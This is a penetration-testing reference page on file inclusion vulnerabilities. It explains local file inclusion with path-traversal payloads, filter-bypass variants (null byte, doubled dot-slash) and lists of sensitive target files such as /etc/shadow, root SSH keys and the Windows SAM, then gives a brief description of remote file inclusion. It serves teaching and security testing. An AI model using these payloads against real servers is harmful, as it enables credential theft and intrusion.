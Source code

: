 # File Inclusion

**File Inclusion** vulnerabilities allow an attacker to **include files on a server through a web application's input**. \
This happens when the application uses user input to construct paths to files and then includes those files in the execution process, without proper validation or sanitization.



There are two main types:

## Local File Inclusion (LFI) - Path Traversal

The **Local File Include** vulnerability is a web vulnerbility that allows a hacker to read/view sensitive information **already present on the server**.

In practice, the follow URL may be affected by LFI vulnerability:

```
https://company.com/download?ticket=3123345123-345345123.json
```

We see that we can change the variable indicating the file to be displayed. Try to change it with a local file with possible sensitive information:

```
https://company.com/download?ticket=../../../../../../etc/passwd
```

This URL will display the entire file content.

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
[..snip..]
```



### Bypass Payloads

{% code title="Manual" overflow="wrap" %}
```bash
../../../../../../etc/passwd # bypass include php function
../../../../../../etc/passwd%00 # set NULL BYTE at the end to bypass file type and bypass Blacklist filter, not working with PHP 5.3.4 and above
....//....//....//....//....//etc/passwd # bypass ./ replaces by empty string

```
{% endcode %}

{% code title="Files" %}
```
```
{% endcode %}

### Sensitive file to get

{% code title="Linux Web Server" %}
```bash
/etc/passwd # system's user
/etc/shadow # system's password 
/etc/hosts # may contain subdomain
/etc/issue # 
/etc/profile # controls system-wide default variables
/proc/version # specifies the version of the Linux kernel
/root/.bash_history
/var/log/apache2/access.log # may contain credentials
/var/log/auth.log # ssh logon
/var/log/secure # admin activities
/var/log/dmessage # contains global system messages
/var/mail/root
/root/.ssh/id_rsa # private ssh keys for a root or other accounts

```
{% endcode %}

{% code title="Windows Web Server" %}
```bash
C:\Windows\System32\drivers\etc\hosts # other domain and subdomain
C:\Windows\System32\config\SAM # password hashes 
C:\inetpub\logs\LogFiles\W3SVC1\*.log # IIS log
C:\Users\Administrator\Desktop\* # admin files
C:\boot.ini # contains the boot options with BIOS firmware
```
{% endcode %}



## Remote File Inclusion (RFI)

**Remote File Inclusion (RFI)** is a technique to include remote files into a vulnerable application. \
Like LFI, the RFI occurs when improperly sanitizing user input, allowing an attacker to inject an external URL into `include` function. One requirement for RFI is that the `allow_url_fopen` option needs to be `on`.

The risk of RFI is higher than LFI since RFI vulnerabilities allow an attacker to gain Remote Command Execution (RCE) on the server. Other consequences of a successful RFI attack include:

* Sensitive Information Disclosure
* Cross-site Scripting (XSS)
* Denial of Service (DoS)





